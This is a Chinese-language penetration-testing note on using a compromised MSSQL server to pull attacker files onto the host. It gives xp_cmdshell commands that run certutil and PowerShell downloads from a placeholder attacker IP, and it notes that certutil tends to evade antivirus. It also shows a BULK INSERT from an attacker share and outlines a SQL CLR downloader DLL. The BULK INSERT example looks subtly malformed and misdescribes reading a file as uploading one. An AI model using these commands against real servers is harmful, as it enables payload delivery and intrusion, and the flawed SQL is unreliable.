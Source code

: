 ### 如果想通过 MSSQL 上传文件需要开启哪个存储过程的权限

**1. 利用 `xp_cmdshell` 存储过程（最常见）**

如前面所述，`xp_cmdshell` 是执行系统命令的利器。一旦你获得了执行 `xp_cmdshell` 的权限（通常是 `sysadmin`），就可以通过它来执行命令行下的文件上传操作

- **所需权限**：`sysadmin` 服务器角色或 `CONTROL SERVER` 权限，并且 `xp_cmdshell` 必须已启用

- **实现方法**：

  - **方法一：利用 `certutil` 下载文件** 这是最常见且非常实用的方法，它利用 Windows 自带的 `certutil.exe` 工具来下载文件

    ```sql
    EXEC xp_cmdshell 'certutil.exe -urlcache -split -f "http://<攻击机IP>/<文件名>" "c:\\<文件保存路径>\\<文件名>"';
    ```

    这种方法的好处是，`certutil` 是 Windows 系统自带的，不容易被杀毒软件拦截

  - **方法二：利用 PowerShell 下载文件** 使用 PowerShell 的 `Invoke-WebRequest` 或 `Net.WebClient` 方法来下载文件

    ```sql
    EXEC xp_cmdshell 'powershell.exe -c "Invoke-WebRequest -Uri http://<攻击机IP>/<文件名> -OutFile c:\\<文件保存路径>\\<文件名>"';
    ```

    或者使用更简单的别名：

    ```sql
    EXEC xp_cmdshell 'powershell.exe -c "iwr http://<攻击机IP>/<文件名> -OutFile c:\\<文件保存路径>\\<文件名>"';
    ```

  - **方法三：利用其他命令行工具** 如果目标机器上安装了 `wget`、`curl` 等工具，你也可以使用它们

**2. 利用数据库的 `OPENROWSET` 或 `BULK INSERT`**

这种方法相对不那么常见，但如果 `xp_cmdshell` 被禁用，这是一种可以尝试的备选方案。它主要利用 MSSQL 强大的文件处理能力

- **所需权限**：

  - `sysadmin` 或 `bulkadmin` 角色
  - `BULK INSERT` 需要对目标文件夹有写权限，并且 `OPENROWSET` 必须启用 `Ad Hoc Distributed Queries`

- **实现方法**：

  - **方法一：`OPENROWSET`** 这种方法可以从一个共享网络路径（UNC Path）读取数据，并插入到数据库表中。虽然它主要用于数据导入，但你可以利用它将文件内容导入到数据库，再通过其他方式导出

  - **方法二：`BULK INSERT`** 和 `OPENROWSET` 类似，`BULK INSERT` 也能从网络共享路径读取文件数据

    ```sql
    BULK INSERT MyTable
    FROM '\\<攻击机IP>\share\<文件名>'
    WITH (
      ROWTERMINATOR = 'EOF',
      DATA_SOURCE = 'MyDataSource'
    );
    ```

    这种方法需要 MSSQL 服务的运行用户对网络共享路径有读取权限

**3. 利用 SQL CLR 集成**

这是一种高级且隐蔽的上传文件方法。如果你能够执行 SQL CLR 代码，你就可以编写一个 .NET 存储过程，该存储过程包含文件读写功能

- **所需权限**：`sysadmin` 或 `EXTERNAL ACCESS ASSEMBLY` 权限
- **实现方法**：
  1. 用 C# 编写一个可以从 URL 下载文件并保存到本地的 DLL
  2. 将 DLL 文件上传到服务器，或者通过 `xp_cmdshell` 下载
  3. 使用 SQL 命令将 DLL 注册为 SQL CLR 程序集
  4. 执行你编写的存储过程，实现文件上传